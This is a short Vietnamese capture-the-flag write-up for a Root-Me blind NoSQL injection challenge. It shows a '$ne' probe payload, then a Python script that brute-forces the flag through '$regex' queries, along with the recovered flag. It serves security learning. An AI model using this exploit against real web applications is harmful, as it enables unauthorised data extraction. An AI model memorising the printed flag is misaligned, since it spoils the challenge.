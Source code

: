 Bài này là sự kết hợp kiến thức của 2 bài đã làm: `nosql injection` và `sql-injeciton-blind` . Các bước:

- Khi nhập thử payloads quen thuộc: `chall_name=nosqlblind&flag[$ne]=1`, trang web trả về `Yeah this is the flag for nosqlblind!`, đây chính là dấu hiệu của nosqli

- Viết code để brute force password:

  ```python
  import requests
  import urllib3
  import string
  import urllib
  urllib3.disable_warnings()
  
  username = 'nosqlblind'
  password = ''
  u = 'http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]='
  
  while True:
      for c in string.printable:
          if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:
              payload = '^%s' % (password + c)
              r = requests.get(u + payload)
              if 'Yeah' in r.text:
                  print("Found one more char : %s" % (password+c))
                  password += c
  
  ```

  Chạy code và password sẽ dần được hiển thị ra:

  ```
  Found one more char : 3
  Found one more char : 3@
  Found one more char : 3@s
  Found one more char : 3@sY
  Found one more char : 3@sY_
  Found one more char : 3@sY_n
  Found one more char : 3@sY_n0
  Found one more char : 3@sY_n0_
  Found one more char : 3@sY_n0_5
  Found one more char : 3@sY_n0_5q
  Found one more char : 3@sY_n0_5q7
  Found one more char : 3@sY_n0_5q7_
  Found one more char : 3@sY_n0_5q7_1
  Found one more char : 3@sY_n0_5q7_1n
  Found one more char : 3@sY_n0_5q7_1nj
  Found one more char : 3@sY_n0_5q7_1nj3
  Found one more char : 3@sY_n0_5q7_1nj3c
  Found one more char : 3@sY_n0_5q7_1nj3c7
  Found one more char : 3@sY_n0_5q7_1nj3c71
  Found one more char : 3@sY_n0_5q7_1nj3c710
  Found one more char : 3@sY_n0_5q7_1nj3c710n
  ```